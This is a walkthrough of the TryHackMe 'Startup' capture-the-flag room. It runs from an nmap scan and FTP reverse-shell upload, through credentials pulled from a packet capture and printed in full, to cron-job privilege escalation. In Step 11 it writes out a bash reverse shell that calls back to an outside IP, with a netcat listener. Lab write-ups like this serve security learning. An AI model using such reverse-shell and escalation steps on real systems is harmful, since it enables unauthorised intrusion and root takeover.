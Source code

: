 # TryHackMe - Startup CTF Walkthrough  

This is my walkthrough of the **Startup CTF room** on [TryHackMe](https://tryhackme.com).  

The room focuses on **enumeration, privilege escalation, and Linux fundamentals**. It was a great exercise in understanding how to pivot from initial access to root through services like **FTP, SSH, cron jobs, and process monitoring**.  

---

## 🖥️ Step 1: Connecting to the VPN  
Before starting, I connected to the TryHackMe server using my `.ovpn` configuration file:  

```bash
$ sudo openvpn Downloads/Ynos.ovpn
```  

This establishes a secure tunnel to interact with the target machine.  

---

## 🌐 Step 2: Checking Connectivity  
I confirmed I could reach the target machine with a simple **ping**:  

```bash
$ ping (Ip of the machine)
```  

This helps ensure there are no connectivity issues before scanning.  

---

## 🔍 Step 3: Nmap Scan  
I performed a full **Nmap scan** to enumerate open ports and services:  

```bash
$ nmap -sV -O -T5 -p- 10.10.207.53 -oN Nmap.results
```  

- `-sV` → Detect service versions  
- `-O` → Enable OS detection  
- `-T5` → Faster scan timing  
- `-p-` → Scan all 65535 ports  
- `-oN` → Save results in a file  

**Result:** The scan revealed that an **FTP server** was open.  

---

## 📂 Step 4: Web Enumeration with Dirbusting  
While Nmap was running, I also started a **directory brute-force scan** on the website.  

This revealed a directory named **`/files`**, containing:  
- **Among Us memes**  
- A hint mentioning a user named **maya**  

Interestingly, these files were accessible through **both FTP and HTTP**.  

---

## 💣 Step 5: Initial Foothold via FTP  
Since no obvious exploits were found, I tried **uploading a reverse shell** to the FTP server and executed it to gain access.  

At this point, I had access as the **`data` user**.  

---

## 🕵️ Step 6: Enumeration as `data`  
While enumerating, I discovered:  
- A **special ingredient** (flag)  
- A reference to another user: **lennie**  
- A suspicious file: **`suspicious.pcapng`**  

---

## 📡 Step 7: Packet Capture Analysis  
I analyzed `suspicious.pcapng` and extracted credentials for user **lennie**:  

```
Username: lennie  
Password: c4ntg3t3n0ughsp1c3
```  

---

## 🔑 Step 8: SSH into Lennie’s Account  
With these credentials, I successfully logged in via **SSH**:  

```bash
$ ssh lennie@10.10.207.53
```  

Inside Lennie’s account, I found the **second flag**.  

---

## ⏱️ Step 9: Privilege Escalation Attempts  
Naturally, I checked for scheduled tasks using **crontab**, since automated scripts often lead to privilege escalation:  

```bash
$ crontab -l
```  

However, I couldn’t directly access the root crontab.  

---

## 👀 Step 10: Process Snooping with pspy64  
To get around this, I used **pspy64**, a tool for monitoring processes without root privileges.  

- I uploaded `pspy64` to the machine via FTP.  
- Downloaded and executed it on Lennie’s account.  

This revealed that a **script was being executed every minute** by Lennie’s user.  

---

## 🐚 Step 11: Exploiting the Scheduled Script  
I replaced the script with a **bash reverse shell**:  

```bash
$ echo ‘bash -i >& /dev/tcp/10.23.132.255/4242 0>&1’ > etc/print.sh
```  

Then, I set up a Netcat listener on my machine:  

```bash
$ nc -nclp 4242
```  

Within a minute, the cron job triggered, and I gained a shell as **root** 🎉.  

---

## 🎯 Lessons Learned  
This room was an excellent practical demonstration of:  
- **Service Enumeration** → FTP & HTTP gave dual access to files.  
- **Packet Analysis** → Extracting credentials from `.pcapng`.  
- **Privilege Escalation** → Using pspy64 to monitor cron jobs.  
- **Reverse Shells** → Crafting payloads to gain root access.  

---

## 🚩 Flags Captured  
1. User `data` → Special Ingredient  
2. User `lennie` → Second Flag  
3. Root → Final Flag  

---

## 📝 Final Thoughts  
The **Startup CTF** room was a fun balance between basic enumeration and creative privilege escalation. The use of **pspy64** for process monitoring was especially valuable, as it mimics real-world scenarios where direct cron access isn’t possible.  

I’d recommend this room for anyone looking to practice **Linux privilege escalation** and improve their **problem-solving workflow** during CTFs.  
